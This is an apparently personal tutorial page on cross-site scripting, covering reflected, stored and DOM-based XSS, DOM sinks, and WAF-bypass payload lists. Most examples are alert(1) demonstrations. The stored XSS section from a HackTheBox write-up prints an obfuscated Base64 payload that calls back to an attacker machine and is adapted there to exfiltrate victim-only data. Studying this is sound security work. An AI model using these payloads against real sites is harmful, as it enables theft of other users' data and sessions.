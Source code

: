 ```yaml
---
description: <script>
---
```


# Cross-Site Scripting

Cross-Site Scripting, or XSS, is a vulnerability that would allow attackers to exploit the interactions that **other users** have with an application. In short, it can allow us to impersonate and perform actions as another user, steal information and in some cases, gain RCE.

The most common way of testing if XSS is present on a website is to call the Javascript alert function. For example, the script tags of HTML can be used :`<script>alert(1)</script>`. \
The image below shows an example of what would pop out.

<figure><img src="../.gitbook/assets/image (1) (3) (1) (2).png" alt=""><figcaption></figcaption></figure>

## How it Works

Browsers and websites allow users to interact with them and perform actions through Javascript. XSS would work via injecting malicious Javascript code to execute on a user's browser. Basically, **scripting across the website**.

There are 3 types of XSS:

1. Reflected XSS
2. Stored XSS
3. DOM Based XSS

### Reflected XSS

Reflected XSS is the simplest form of the exploit. This occurs when a malicious script is reflected off a web application and onto the victim's browser. This script is normally activated through a link or action on the website and would be redirected to the next user.

<figure><img src="../.gitbook/assets/image (11) (3) (2).png" alt=""><figcaption></figcaption></figure>

An example would be as follows:

* Suppose we have a website that had a URL that displayed a user-controlled term like http://example.com?search=test
* This search term would cause this to appear on the page:
  * `<p>You searched for: test </p>`
* Using Reflected XSS, we can construct a malicious search link that would trigger a pop-up to appear on screen.&#x20;
* Assuming the website does not have any filters, we can input **http://example.com?search=\<script>alert(1)\</script>** as the URL.
* When any client enters this link, our malicious script would execute on their end and the pop-up would show up in their browsers.
* This works because the rendering of HTML would show this:
  * `<p>You searched for: <script>alert(1)</script></p>`
  * The script tags allow for an 'escape' from the paragraph tags, and we can execute Javascript code within the tags.

Reflected XSS attacks still rely on the **victim user to make a request they control**. We still need the victim to perform a specific action in order to exploit this. This could be through sending phishing links or putting links on a website we control.

The reliance on the user makes the impacts of XSS less severe compared to the other forms of XSS.

### Stored XSS

Stored XSS means that the malicious script is stored on the website itself. Then, everytime a user visits the page that the script is on, it would execute. Stored XSS has much more severe impacts, as it only requires users to go visit the site. This can be in the form of a blog post comment, editing the website page to have hidden Javascript, etc.

<figure><img src="../.gitbook/assets/image (2) (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

Here's an example of XSS from the HTB machine, Extension:

After enumeration of the website, we have identified that there is a stored XSS vulnerability in the 'Report Issues' function of the Gitea instance. The victim has been found to visit the Issues tab of the Gitea instance from time to time.&#x20;

This was the payload found to work: `test<test><img SRC="x" onerror=eval.call${"eval\x28atobZmV0Y2goImh0dHA6Ly8xMC4xMC4xNC41LyIp\x29"}>`

How this payload works is through rendering an **image** tag and having a script execute on an **event** called 'onerror', which means if the image fails to load, it would load the script. The scriptis calling an **eval** function which has a Base64 encoded command using **fetch** to connect back to the attacker machine on port 80.

When inputted, the victim would view the Issues and be served this payload. This would result in the victim's browser making a callback to the attacker machine. On the attacker machine, the following callback is received:

<figure><img src="../.gitbook/assets/image (1) (2) (2) (1).png" alt=""><figcaption></figcaption></figure>

This confirms that the XSS is working properly. For this machine, the payload can be modified to include information about a hidden directory that only the victim can access:

<figure><img src="../.gitbook/assets/image (5) (2) (2).png" alt=""><figcaption></figcaption></figure>

Stored XSS is much more dangerous because it stores the script on the page itself and exploiting every user that visits it. In the above example, XSS was used to steal information about a directory that only the user could visit. In other cases, stuff like authorisation cookies or passwords can be stolen by attackers.

### DOM-Based XSS

DOM XSS arises when Javascript takes some input from a user-controlled source and processes it insecurely.&#x20;

> Document Object Model (DOM) is a programming interface for web pages, defining the structure of a document and how the document is accessed and manipulated. A website can use Javascript to do something, but uses DOM to access the document and the relevant elements. DOM is structured like a hiearchy tree, with a root element and other elements that are children of the root node.
>
> More can be read here:
>
> [https://developer.mozilla.org/en-US/docs/Web/API/Document\_Object\_Model/Introduction](https://developer.mozilla.org/en-US/docs/Web/API/Document\_Object\_Model/Introduction)

DOM XSS arises when data is passed to something called a **sink**, which is basically a function that supports **dynamic code execution.** This can be a function like **eval,** for example. Malicious Javascript code can be passed to this sink and allow for the execution of Javascript used to hijack other accounts.

Here are some sinks that can be used for DOM XSS:

```
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
add()
after()
append()
animate()
insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()
```

These functions **are not limited to only XSS,** but can also be used for other DOM exploits, such as **open redirection,** through exploiting taint flow vulnerabilities.&#x20;

There are methods to test the HTML and Javascript sinks that are within a website that require the use of browser inspector tools, which would involve looking at how data is parsed by the function. First, we would need to identify a potential source (input location) whereby our input is processed via the sink. Then we can test them as follows:

* HTML Sinks
  * Input HTML strings within a potentially vulnerable sink.
  * Check the page source and try to find out string.
  * Attempt ot break out of the HTML tags to execute our code.&#x20;
* Javascript execution sinks
  * Sometimes, we cannot see our input anywhere within the DOM, so we can't search for it.&#x20;
  * Use the Javascript Debugger to determine whether and how our input is sent to a sink.
  * Add a break point and follow how the source's value is read, then track the variables to see if they are passed to a sink.&#x20;
  * Once we have found the sink, attempt to execute malicious Javascript by tweaking our payload.

**Here's an example of exploiting DOM-based XSS:**

Suppose we have this website that has a dashboard customised based on the username. The username is encoded **in the URL** and used directly on the page.

```markup
<html>
<head>
<title>Custom Dashboard </title>
...
</head>
Main Dashboard for
<script>
	var pos=document.URL.indexOf("context=")+8;
	document.write(document.URL.substring(pos,document.URL.length));
</script>
...
</html>
```

We can see that the vulnerable sink used is **document.write( ),** and the **source** would be a **context** parameter we pass to the website. We can then embed a malicious script in the URL like this: `http://example.com/dashboard.html#context=<script>alert(1)</script>`.&#x20;

A victim would then need to click this link. When the link is clicked and the browser starts building the DOM of the page, the browser would use the URL provided (in this case, the malcious link above) and run it. The malicious context parameter would then be extracted and the HTML is updated to have our code. The browser then runs this code and calls the alert function, thus making the XSS possible.&#x20;

## Payloads

XSS is a common vulnerablity and there are often measures to prevent it's execution. For example, a website could restrict the usage of **events** or **\<script>** tags to prevent users from exploiting it. However, there are always ways to bypass this.

In basic cases, websites can allow for \<script> tags to be used as input and allow for the embedding of HTML directly on the page. However, if the website has a WAF that does not allow this, we can brute force the possible tags possible.&#x20;

Event attributes can be used in conjunction with tags to deliver the payload, such as **onerror**. Again, this can be brute forced. A lot of XSS payloads out there are built to bypass WAF detection and execute our payload. I normally use Portswigger's cheat sheet to find all the possible tags and events for each browser.

> HTML Event attributes allow events to trigger actions on a browser, like starting Javascript whne a user clicks on an element. For example, using the \<img src="x" onerror=alert(1)> payload would attempt to render an image, which would always result in an error in this case. This would trigger the alert(1) to happen.

{% embed url="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet" %}

There are loads of payload repositories out there, so I'm not going to make one here.

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection" %}
